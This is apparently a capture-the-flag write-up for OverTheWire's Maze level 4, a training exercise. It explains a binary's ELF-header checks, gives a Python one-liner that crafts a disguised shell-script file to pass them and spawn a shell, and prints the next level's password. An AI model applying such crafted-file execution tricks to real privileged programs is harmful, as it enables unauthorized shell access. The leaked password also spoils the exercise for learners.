 
---
**Challenge URL:** [Maze Wargame](https://overthewire.org/wargames/)

---

### 🔐 Level Goal:

> The binary accepts a file path as input, validates it based on ELF header and program header conditions, and then executes it if the checks pass. Your task is to craft a **valid ELF file** that passes these conditions and spawns a shell.

---

### 🧠 Concepts Covered:

- 📜 ELF header manipulation
    
- 🔍 Understanding `e_ident[]` and `p_paddr` fields
    
- 🧠 Use of `stat`, `read`, and `lseek`
    
- 🪝 Custom shell script as an ELF-compatible file
    

---

### 🔎 Summary of Binary Logic

From decompiled code:

```c
stat(argv[1], &st);                // Check file size
read(fd, &ehdr, 52);               // Read ELF header
lseek(fd, ehdr.e_phoff, SEEK_SET);
read(fd, &phdr, 32);               // Read program header

if (phdr.p_paddr == e_ident[8] * e_ident[7] && st.st_size < 120)
    execv(argv[1], NULL);          // Execute if valid
```

🔍 Key conditions:

- `phdr.p_paddr == e_ident[8] * e_ident[7]`
    
- File size `< 120 bytes`
    

---

### 🧪 Strategy

We'll create a file that:

- Contains a shell script (`/bin/sh`)
    
- Places crafted values in `e_ident[7]` and `e_ident[8]` so their product = `phdr.p_paddr`
    
- Aligns offset for `phdr` using NOPs or junk
    
- Keeps total size under 120 bytes
    

---

### ⚙️ Exploit Payload

```bash
python3 -c '
print(
    "#!/bin/sh\n/bin/sh\n" +
    "A"*10 +
    "\x20\x00\x00\x00" +    # e_phoff = 0x20
    "B"*12 +
    "\xb8\x2e\x00\x00" +    # phdr.p_paddr = 0x2eb8 = 0x68 * 0x73
    "B"*16
)' > /tmp/hello
```

Explanation:

- `"h"` = `0x68`, `"s"` = `0x73` → `0x68 * 0x73 = 0x2eb8`
    
- ELF fields `e_ident[7] = 0x73`, `e_ident[8] = 0x68`
    
- `e_phoff` = 0x20 ensures program header starts at correct offset
    
- Junk padding aligns the headers
    

---

### ▶️ Execute the Exploit

```bash
/maze/maze4 /tmp/hello
```

If successful, it passes all validation checks and gives you a shell 🐚

---

### 🔑 Password for Maze Level 5:

```
ishipaeroo
```

---
